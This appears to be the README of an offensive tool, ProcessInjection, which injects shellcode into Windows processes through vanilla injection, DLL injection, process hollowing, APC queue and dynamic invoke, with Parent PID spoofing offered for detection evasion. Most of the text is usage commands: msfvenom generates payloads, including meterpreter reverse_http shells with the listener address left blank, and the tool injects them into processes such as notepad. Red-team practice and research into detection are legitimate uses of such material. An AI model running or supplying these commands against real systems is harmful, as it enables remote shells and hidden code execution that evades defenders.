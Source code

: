 # ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 4 process injection techniques.

	1) Vanila Process Injection
	2) DLL Injection
	3) Process Hollowing
	4) APC Queue
	5) Vanula Process Injection (Dynamic Invoke)

Vanila Process Injection
Currently the tool accepts shellcode in 3 formats.

	1) base64
	2) hex
	3) C

Supports 1 detection evading technique.

	1) Parent PID Spoofing
	

### Command Line Usage

	Generating shellcode in base64 format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" | base64
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:base64 /t:1

	Generating shellcode in hex format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f hex
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:hex /t:1

	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f c
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:c /t:1

	DLL Injection
	Generating DLL and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f dll > Desktop/calc.dll
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\calc.dll" /t:2
	
	Process Hollowing
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /f:c /t:3
	
	APC Queue
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /f:c /t:7

	Vanila Process Injection (Dynamic Invoke)
	All shellcode formats are supported
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f c
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:c /t:9

	Detection Evading Technique

	Parent PID Spoofing with Vanila Process Injection.
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /parentproc:explorer /f:c /t:4

	Parent PID Spoofing with DLL Injection.
	Generating DLL and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f dll > Desktop/reverse_shell.dll
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\reverse_shell.dll" /parentproc:explorer /t:5
	
	Parent PID Spoofing with Process Hollowing.
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /parentproc:explorer /f:c /t:6

	Parent PID Spoofing with APC Queue.
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /parentproc:explorer /f:c /t:8

	Parent PID Spoofing with Vanila Process Injection (Dynamic Invoke).
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /parentproc:explorer /f:c /t:10


### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)

[https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)

[https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html](https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html)

[https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e](https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e)

[https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html](https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html)


### Contribution Credit

[Renos](https://twitter.com/r3n_hat)
[The Wover](https://twitter.com/TheRealWover) & [b33f](https://twitter.com/FuzzySec) for Dynamic Invoke(https://thewover.github.io/Dynamic-Invoke/)

Credits also goes to [Aaron Bray](https://github.com/ambray) & [Rasta Mouse](https://twitter.com/_rastamouse) for Process Hollowing code
